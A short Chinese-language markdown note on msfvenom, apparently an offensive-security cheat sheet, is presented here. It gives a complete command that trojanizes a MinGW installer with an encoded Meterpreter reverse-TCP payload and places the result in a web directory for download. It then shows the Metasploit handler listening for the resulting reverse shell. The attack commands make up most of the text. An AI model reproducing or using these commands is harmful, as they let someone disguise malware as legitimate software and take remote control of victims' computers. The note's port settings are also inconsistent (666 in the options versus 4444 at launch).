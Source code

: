 ## msfvenom

msfvenom是payload和encoder两个模块的组合

> 使用-x 参数可以指定将当前木马挂到指定文件, 会有一定几率导致文件无法运行，session失效。可能是软件有防挂载。

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -x /root/Desktop/mingw-w64-install.exe -b '\x00' -i 3 -f exe -o /var/www/html/mingw.exe
```

监听

```
msf5 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.80.200   yes       The listen address (an interface may be specified)
   LPORT     666              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.80.200:4444 
```





